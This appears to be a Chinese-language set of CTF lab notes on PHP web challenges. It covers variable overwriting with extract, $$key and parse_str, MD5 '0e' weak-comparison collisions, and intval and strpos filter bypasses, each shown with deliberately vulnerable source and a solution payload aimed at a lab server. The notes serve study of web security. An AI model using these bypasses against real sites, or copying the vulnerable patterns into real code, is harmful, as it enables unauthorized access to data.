







## nmap扫端口

## dirsearch扫目录


## PHP变量覆盖

### extract.php

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    include('flag.php');
    extract($_GET);
    //extract($_POST);
    echo $gift;
    if(isset($gift)){
        $content = trim($test);
        if($gift == $content){
            echo "flag is ".$flag;
        }
        else{
            echo "error";
        }
    }
?>
```

`extract()`函数：将数组的键变成变量名，把数组的值变成变量的值。例如`?name=ywd`，则`$_GET = ['name' => 'ywd']`，执行`extract()`之后，相当于执行了`$name = 'ywd'`

读代码可知，只需要变量`gift`和变量`content`弱相等即可，而变量`content`是两边去空格之后的变量`test`

payload：`http://47.96.79.152:8886/extract.php?gift=1&test=1`



### extract2.php

```php
<?php
error_reporting(0);
show_source(__FILE__);
include('flag.php');
extract($_GET);
//var_dump($shiyan);
//var_dump($shiyan === NULL);
if(isset($shiyan))
{
    $content=trim(file_get_contents($flag7));
    if($shiyan==$content)
    {
        echo $flag7;
    }
    else
    {
        echo'Oh.no';
    }
}
?>
```

?shiyan= 即可

$flag7内容是flag{xxxxxxxxxxxxxxxxxxx}，没有叫做flag{xxxxxxxxxxxxxxxxxxx}的文件，所以`file_get_contents($flag7)`得到的是null

所以给$shiyan传空即可

### foreach1.php

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    $filename = 'test.php';
    foreach($_POST as $key => $value){
        //var_dump($_POST);
        //echo "</br>";
        $$key = $value;
    }
    include($filename);
    echo $flag;
?>
```



通过post传filename = flag.php，则$value = flag.php，$key = filename，则$filename = flag.php

include(flag.php)会执行 



### foreach2.php

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    include('flag.php');
    $_200 = 'Welcome!';
    $_403 = 'Error!!';
    foreach($_GET as $key => $value){
        $$key = $$value;
    }
    foreach($_POST as $key => $value){
        $$key = $value;
    }
    if($_POST['flag'] == $flag){
        echo "要怎么才能拿到flag呢";
        die($_200);
    }
?>
```

`die($_200)`：输出该变量信息后，停止代码执行。

则需要让`$_200 = $flag`，，然后把$flag的值输出出来。要让`die($_200)`执行，则需要post传输的flag的值与$flag的值相等

通过post传 flag = flag，触发：

```php
foreach($_POST as $key => $value){
        $$key = $value;
    }
```

即$flag = flag，那么if条件成立，现在还需要让`$_200 = $flag`，则`?_200=flag`



### foreach3.php

```php
<?php
highlight_file(__FILE__);
error_reporting(0);
include('flag.php');
#flag=flag5
$_404='404 Not Found';
foreach (array('_GET') as $_request)  //将数组中的每一个元素赋值给变量$_request，数组中就一个元素，是字符串'_GET'
{
    foreach ($$_request as $_key=>$_value)  // 那么$$_request 变成了$_GET
    {
        $$_key=  $$_value;
    }
}
die($_404);

?>
```

那么非常简单：





### hex1

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    if(isset($_GET['a'])&isset($_GET['b'])){
        if($_GET['a']!=$_GET['b']&&md5($_GET['a'])==md5($_GET['b'])){
            echo "good good";
        }
        else{
            echo "就你？？？";
        }
    }
?>
```

也就是通过get传递的两个变量a和b的值不相同但是他们的md5值相同

如果两个字符经md5加密后的值是0exxxx的形式，就会被认为是科学计数法，0exxxx = 0 都是相等的

下列字符串的MD5值都是0e开头

```
QNKCDZO
240610708
s878926199a
s155964671a
s214587387a
s214587387a
```

### hex2

```php
<?php
    highlight_file(__FILE__);
    error_reporting(0);
    if(isset($_GET['a'])&&isset($_GET['b'])){
        if($_GET['a']!=$_GET['b']&&md5($_GET['a'])===md5($_GET['b'])){
            echo "good good";
        }
        else{
            echo "就你？？";
        }
    }
?>
```

变量a和b的值不能相等，但是二者md5值相等

md5()函数无法处理数组，如果传入的为数组，会返回NULL



### intval1.php

```php
<?php 
highlight_file(__FILE__);
error_log(0);
include('flag.php');
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag3;
    }
}
```

$num不能和4476强相等但是intval之后的值要和4476强相等

intval(var, base)函数：如果base为0，则通过var的格式决定使用的进制。例如0x开头则使用16进制，以0开头则使用8进制，否则，使用10进制

成功时返回 `var` 的 integer 值，失败时返回 0。   空的 array 返回 0，非空的 array 返回 1。 

方法有很多：

```
http://47.96.79.152:8886/intval1.php?num=4476aa
http://47.96.79.152:8886/intval1.php?num=4476.1
http://47.96.79.152:8886/intval1.php?num=+4476
```

### intval2.php

```php
<?php 
highlight_file(__FILE__);
error_log(0);
include('flag.php');
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if(!preg_match('/0/', $num)){
        if($num==="4476"){
            die("no no no!");
        }
        if(intval($num,0)===4476){
            echo $flag4;
        }
}
}
```

必须没有0

和上一题一样

### parse_str.php

```php
<?php
    error_reporting(0);
    highlight_file(__FILE__);
    include('flag.php');
    $a='just do it';
    $id = $_GET['id'];
    parse_str($id);
    if(a[0]!='QNKCDZO'&&md5($a[0])==md5('QNKCDZO')){
        echo $flag;
    }else{
        echo "再试一下";
    }
?>
```

parse_str — 将字符串解析成多个变量

```php
<?php
$str = "first=value&arr[]=foo+bar&arr[]=baz";

// 推荐用法
parse_str($str, $output);
echo $output['first'];  // value
echo $output['arr'][0]; // foo bar
echo $output['arr'][1]; // baz

// 不建议这么用
parse_str($str);
echo $first;  // value
echo $arr[0]; // foo bar
echo $arr[1]; // baz
?> 
```

题解：

```
http://47.96.79.152:8886/parse_str.php ?id=a[]=240610708
```

### web89

```php
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['num'])){
    $num = $_GET['num'];
    if(preg_match("/[0-9]/", $num)){
        die("no no no!");
    }
    if(intval($num)){
        echo $flag1;
    }
}
?>
```

$num不能有数字但是intval之后值为正


### web94.php

`strpos($num, "0")` 在 PHP 中是用来查找字符串 `$num` 中**第一次出现字符 "0" 的位置**。没有就输出false

```php
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(preg_match("/[a-z]/i", $num)){
        die("no no no!");
    }
    if(!strpos($num, "0")){// 0不能出现在第一位 0123的话 返回0, !0 = 1，也不能没有0
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag2;
    }
}
?>
```

?num=4476.01

### web95

```php
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==4476){ //弱相等
        die("no no no!");
    }
    if(preg_match("/[a-z]|\./i", $num)){// 点匹配没了
        die("no no no!!");
    }
    if(!strpos($num, "0")){ // 0不能出现在第一位 0123的话 返回0, !0 = 1，也不能没有0
        die("no no no!!!");
    }
    if(intval($num,0)===4476){
        echo $flag3;
    }
}
```

```
echo intval('+42');          // 42
首先要知道这个
```

+号结合8进制：4476的8进制是10574，要让intval知道是8进制的话，前面要加一个0

intval(+010574) 这样没有点，0出现在第二位，弱相等也不成立

### web105.php

```php
<?php
highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing!");
    }
    $$key=$$value;
    //var_dump($$key);
    //var_dump($$value);
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
    //var_dump($$key);
    //var_dump($$value);
    }
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);
?>

```

